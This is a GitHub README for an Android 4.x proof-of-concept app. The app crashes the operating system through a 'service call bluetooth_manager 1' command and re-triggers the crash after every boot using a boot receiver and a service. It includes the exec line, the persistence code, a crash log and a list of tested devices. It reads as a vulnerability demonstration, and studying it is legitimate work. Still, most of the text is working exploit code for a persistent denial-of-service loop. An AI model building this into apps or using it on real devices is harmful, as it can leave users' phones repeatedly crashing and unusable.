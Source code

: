 android_bt_manager
==================

This Android 4.x application causes the Android runtime to crash Android.io by making a service call to bluetooth_manager. This android application also demonstrates how to launch an application, or other activities, at device startup/boot. 

**WARNING:** This application causes your Android 4.x device to crash 15 seconds after startup as well as 15 seconds after each reboot. Do not run this application without the delay in `MainActivity`. 

**How it works:**
- `MainActivity` sends service call to `IBluetoothManager`: `Runtime.getRuntime().exec("service call bluetooth_manager 1");`. This crashes the Android OS and causes the phone to shut off. 

```
W/dalvikvm(10717): threadid=16: thread exiting with uncaught exception (group=0x415c4ba8)
E/AndroidRuntime(10717): *** FATAL EXCEPTION IN SYSTEM PROCESS: android.io
E/AndroidRuntime(10717): java.lang.NullPointerException
E/AndroidRuntime(10717):        at android.os.RemoteCallbackList.register(RemoteCallbackList.java:112)
E/AndroidRuntime(10717):        at android.os.RemoteCallbackList.register(RemoteCallbackList.java:78)
E/AndroidRuntime(10717):        at com.android.server.BluetoothManagerService$BluetoothHandler.handleMessage(BluetoothManagerService.java:755)
E/AndroidRuntime(10717):        at android.os.Handler.dispatchMessage(Handler.java:102)
E/AndroidRuntime(10717):        at android.os.Looper.loop(Looper.java:136)
E/AndroidRuntime(10717):        at android.os.HandlerThread.run(HandlerThread.java:61)
```

- On startup, the `BootReceiver` class, a `BroadcastReceiver` waits for `ACTION_BOOT_COMPLETED` to start `Crash` service. 

```Java
if (Intent.ACTION_BOOT_COMPLETED.equals(intent.getAction())) {
Intent serviceIntent = new Intent(context, Crash.class);
context.startService(serviceIntent);
}
```

- `Crash` service starts the `MainActivity`, which causes the system to crash again. 

```Java
Intent i = new Intent(this, MainActivity.class);
i.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
startActivity(i);
```

- Repeat. 

**Application Permissions:** 
- `RECEIVE_BOOT_COMPLETED`

**This application has been tested on the following devices:**

|   Device      |   OS   | Rooted | Runtime |
| ------------- |:------:|:------:|:-------:|
| Nexus 5       | 4.4.2  | ✓      | ART     |
| Moto X        | 4.4.3  | x      | ART     |
| Nexus 5       | 4.4.3  | ✓      | ART     |

**What is "`bluetooth_manager 1`"?**

This service call is a request to register a bluetooth adapter. In `IBluetoothManager.java` it does the following: 

```Java
case TRANSACTION_registerAdapter:
{
    data.enforceInterface(DESCRIPTOR);
    android.bluetooth.IBluetoothManagerCallback _arg0;
    _arg0 = android.bluetooth.IBluetoothManagerCallback.Stub.asInterface(data.readStrongBinder());
    android.bluetooth.IBluetooth _result = this.registerAdapter(_arg0);
    reply.writeNoException();
    reply.writeStrongBinder((((_result!=null))?(_result.asBinder()):(null)));
    return true;
}
```

The OS is also unable to handle request to unregister an adapter as well as both register and unregister state changes. More information can be found in the `IBluetoothManager.java` [file](http://grepcode.com/file/repository.grepcode.com/java/ext/com.google.android/android/4.4.2_r1/android/bluetooth/IBluetoothManager.java#IBluetoothManager).

